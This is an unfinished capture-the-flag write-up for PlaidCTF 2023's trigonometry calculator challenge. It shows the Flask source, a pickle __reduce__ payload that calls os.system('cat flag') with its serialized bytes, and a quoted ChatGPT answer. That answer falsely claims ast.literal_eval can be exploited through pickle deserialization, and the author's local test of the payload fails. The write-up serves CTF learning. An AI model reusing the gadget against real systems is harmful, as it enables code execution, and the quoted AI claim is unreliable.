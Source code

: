 # Terrific Trigonometry Tutor

## TTT

### Overview

- 69 Points / 99 Solves

- Overall difficulty for me (From 1-10 stars): ★★★★★★★★★★

### Background

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PlaidCTF-2023/images/Pasted%20image%2020230416144757.png)

### Enumeration

In this challenge, there's a web application:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PlaidCTF-2023/images/Pasted%20image%2020230416144833.png)

Which allows you to do some trigonometry calculations.

**We can also view the [source code](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/ttt.0317e9c2446d934d03676d0d506d7a77bbef1f2b7f500556cd29c2af16caae8d.tar):**
```shell
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:49:08(HKT)]
└> file ttt.0317e9c2446d934d03676d0d506d7a77bbef1f2b7f500556cd29c2af16caae8d.tar    
tttt.0317e9c2446d934d03676d0d506d7a77bbef1f2b7f500556cd29c2af16caae8d.tar: POSIX tar archive
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:49:14(HKT)]
└> tar -xf ttt.0317e9c2446d934d03676d0d506d7a77bbef1f2b7f500556cd29c2af16caae8d.tar
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:49:19(HKT)]
└> ls -lah chal  
total 24K
drwxr-xr-x 4 siunam nam 4.0K Apr 15 17:55 .
drwxr-xr-x 3 siunam nam 4.0K Apr 16 14:37 ..
-rw-r--r-- 1 siunam nam  463 Apr 15 04:16 Dockerfile
drwxr-xr-x 3 siunam nam 4.0K Apr 15 04:05 static
drwxr-xr-x 2 siunam nam 4.0K Apr 15 04:05 templates
-rw-r--r-- 1 siunam nam 2.2K Apr 16 14:42 trig.py
```

**trig.py:**
```py
from flask import Flask, url_for, render_template, request
from ast import literal_eval
import sympy

app = Flask(__name__)

@app.route("/")
def index():
    return render_template('index.html')


regular_operators = {
    'add': lambda x, y: x + y,
    'sub': lambda x, y: x - y,
    'mul': lambda x, y: x * y,
    'div': lambda x, y: x / y,
    'pow': lambda x, y: x ** y,
}

trig_operators = {
    'sin': sympy.sin,
    'cos': sympy.cos,
    'tan': sympy.tan,
    'cot': sympy.cot,
    'sec': sympy.sec,
    'csc': sympy.csc,
    'asin': sympy.asin,
    'acos': sympy.acos,
    'atan': sympy.atan,
    'acot': sympy.acot,
    'asec': sympy.asec,
    'acsc': sympy.acsc,
}


def postfix_calculator(inp):
    stack = []
    for (ty, val) in inp:
        if ty == 'num':
            stack.append(literal_eval(val))
        elif ty == 'var':
            stack.append(sympy.Symbol(val))
        elif ty == 'op':
            if val in regular_operators:
                a = stack.pop()
                b = stack.pop()
                stack.append(regular_operators[val](b, a))
            elif val in trig_operators:
                a = stack.pop()
                stack.append(trig_operators[val](a))
            else:
                raise ValueError("Invalid operator")
    return stack


@app.post("/compute")
def compute():
    try:
        expr = postfix_calculator(request.get_json())
        if len(expr) == 1:
            return sympy.latex(expr[0]) + r'\\=\\' + sympy.latex(sympy.simplify(expr[0]))
        else:
            return r'\quad{}'.join(map(sympy.latex, expr)) + r'\\=\\\cdots'
    except Exception as e:
        return "invalid expression"
```

In this Flask web application, there's a POST route called `/compute`.

This route needs a JSON data, and perform some trigonometry calculations.

**Right off the bat, I saw this:**
```py
if ty == 'num':
    stack.append(literal_eval(val))
```

`literal_eval`??

**After some Googling, I found this [StackOverflow post](https://stackoverflow.com/questions/15197673/using-pythons-eval-vs-ast-literal-eval):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PlaidCTF-2023/images/Pasted%20image%2020230416145220.png)

Hmm... Seems no luck to gain RCE (Remote Code Execution), just like normal `eval`.

**However, I decided to ask ChatGPT to bypass `literal_eval`:**

```
Prompt: Can you give an example of how to bypass the security measures of literal_eval?

Answer: While it is difficult to craft input that can bypass the security measures of literal_eval, there have been vulnerabilities in the past that allowed for code execution via literal_eval. One such example is the "pickle deserialization" vulnerability, which affects Python versions before 3.8.3.

In this vulnerability, an attacker can craft a malicious pickle object that, when deserialized using literal_eval, executes arbitrary code on the system. Here's an example:

import pickle

class Exploit:
    def __reduce__(self):
        import os
        return (os.system, ("echo 'exploited'",))

exploit = pickle.dumps(Exploit())

# This input executes the code in the pickle object
output = eval(pickle.loads(exploit))
In this example, we define a class Exploit that defines the __reduce__ method. This method is called when the object is pickled, and it returns a tuple that specifies the function to call and its arguments. In this case, we're returning the os.system function with the argument "echo 'exploited'", which will execute the echo command when literal_eval is called on the deserialized object.

When we pickle the Exploit object and pass it to literal_eval, the __reduce__ method is called and the os.system function is executed, which runs the echo command and outputs the message "exploited".

It's worth noting that this vulnerability has been patched in Python 3.8.3 and later versions, so it's important to keep your Python installation up-to-date to prevent these types of attacks. Additionally, it's important to sanitize and validate any input that is passed to literal_eval, or to use a safer alternative if possible.
```

Wait, it's vulnerable to pickle deserialization??

Let's build the pickle payload!

```py
#!/usr/bin/env python3
import pickle

def main():
    class Exploit:
        def __reduce__(self):
            import os
            return (os.system, ("cat flag",))

    exploit = pickle.dumps(Exploit())
    print(f'[*] Payload: {exploit}')

if __name__ == '__main__':
    main()
```

```py
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:49:25(HKT)]
└> python3 test.py 
[*] Payload: b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x08cat flag\x94\x85\x94R\x94.'
```

**Then, do local testing for that payload:**
```py
[...]
if ty == 'num':
    stack.append(literal_eval(val))
    literal_eval("__import__('pickle').loads(b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x08cat flag\x94\x85\x94R\x94.')")
[...]
if __name__ == '__main__':
    app.run(debug=True)
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PlaidCTF-2023/images/Pasted%20image%2020230416145616.png)

```shell
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:38:25(HKT)]
└> python3 chal/trig.py
[...]
1
127.0.0.1 - - [16/Apr/2023 14:56:05] "POST /compute HTTP/1.1" 200 -
```

Nope.

However, I tried to find other vulnerabilities like LaTeX injection, but still no luck...